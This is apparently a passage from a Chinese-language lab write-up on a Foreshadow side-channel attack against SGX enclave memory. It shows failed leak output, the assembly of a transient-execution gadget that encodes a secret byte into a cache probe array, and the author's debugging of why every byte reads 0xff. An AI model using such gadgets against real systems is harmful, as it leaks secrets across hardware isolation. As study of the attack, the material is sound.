 ```c
 ** shadow[28]=0xff; enclave[28]=0x1a ** shadow[29]=0xff; enclave[29]=0x28
 ** shadow[30]=0xff; enclave[30]=0x54 ** shadow[31]=0xff; enclave[31]=0x43
 ** shadow[32]=0xff; enclave[32]=0xb7 ** shadow[33]=0xff; enclave[33]=0xe1
 ** shadow[34]=0xff; enclave[34]=0x5a ** shadow[35]=0xff; enclave[35]=0x31
 ** shadow[36]=0xff; enclave[36]=0x5a ** shadow[37]=0xff; enclave[37]=0x75
 ** shadow[38]=0xff; enclave[38]=0x04 ** shadow[39]=0xff; enclave[39]=0x0a
 ** shadow[40]=0xff; enclave[40]=0x31 ** shadow[41]=0xff; enclave[41]=0x92
 ** shadow[42]=0xff; enclave[42]=0x4c ** shadow[43]=0xff; enclave[43]=0xb8
 ** shadow[44]=0xff; enclave[44]=0x91 ** shadow[45]=0xff; enclave[45]=0x3c
 ** shadow[46]=0xff; enclave[46]=0x20 ** shadow[47]=0xff; enclave[47]=0x44
 ** shadow[48]=0xff; enclave[48]=0x0b ** shadow[49]=0xff; enclave[49]=0x45
 ** shadow[50]=0xff; enclave[50]=0x7e ** shadow[51]=0xff; enclave[51]=0x9a
 ** shadow[52]=0xff; enclave[52]=0xf9 ** shadow[53]=0xff; enclave[53]=0x62
 ** shadow[54]=0xff; enclave[54]=0xed ** shadow[55]=0xff; enclave[55]=0x4e
 ** shadow[56]=0xff; enclave[56]=0xd4 ** shadow[57]=0xff; enclave[57]=0x3c
 ** shadow[58]=0xff; enclave[58]=0x6f ** shadow[59]=0xff; enclave[59]=0x60
 ** shadow[60]=0xff; enclave[60]=0x2e ** shadow[61]=0xff; enclave[61]=0x3c
 ** shadow[62]=0xff; enclave[62]=0x73 ** shadow[63]=0xff; enclave[63]=0xa8
[foreshadow.c] [FAIL] Foreshadow missed 64 bytes out of 64 :/
```

根据输出的结果可以发现，确实是每次都存在一个测信道的访问时间相对较小，这个实验结果表明，我们的瞬态执行函数确实执行啦，且访问的是是下标 255 所对应的内存空间，但是这个就产生了一个问题，为什么所有的访问都是 255 对应的内存空间呢？

```c
    .text
    .global transient_access
    # %rdi: oracle（攻击者控制的探测数组基地址）
    # %rsi: secret_ptr（目标秘密数据地址）
    # %rdx: slot_size（探测数组的槽位大小，需为2的幂

transient_access:
    mov $0, %rax           # 初始化 rax 为 0
    tzcnt %rdx, %rcx       # 计算 slot_size 的以2为底的对数（tzcnt统计末尾0的位数）
    #prefetcht0 (%rsi)     # （注释掉的预取指令，若启用则预加载 secret 到缓存）

retry:
    movb (%rsi), %al       # 从 secret_ptr 读取一个字节到 al（rax 的低8位）
    shl %cl, %rax          # 将 rax 左移 cl 位（cl=log2(slot_size)，计算偏移量）
    jz retry               # 若偏移量为0（即读取的字节为0），则重试
    movq (%rdi, %rax), %rdi # 访问 oracle + 偏移量 处的内存（触发缓存加载）
    retq                   # 返回
```

根据瞬态执行函数的汇编代码可以知道，每次访问的应该是对应字节的内存空间，从而导致该字节对应的内存空间的访问时间变短，那么我们根据实验调试得到的结果表明，enclave 内存空间中所有的值都是`0xff`，但是这从观念上来说就是不正确的，但是实验结果又表明了这个现象；
这里还有一个现象就是每次预测字节都会产生一次`SIGSEGV`信号的错误，意味着我们确实是对 enclave 区域进行了访问。

## 不进行瞬态执行

通过注释掉`transient_access(fs_oracle, adrs, SLOT_SIZE);`函数的执行实现，这时候我们再次运行程序可以观察到的结果是没有符合条件的测信道时间戳输出，因此我们更加可以确定瞬态执行确确实实执行了，而且获取到了数据进行访问。

![img](https://cdn.jsdelivr.net/gh/candyb0x/PicgoBed@main/uPic/1744268454002-fedb8421-8e2f-4e61-b6a9-df44356ae124.png)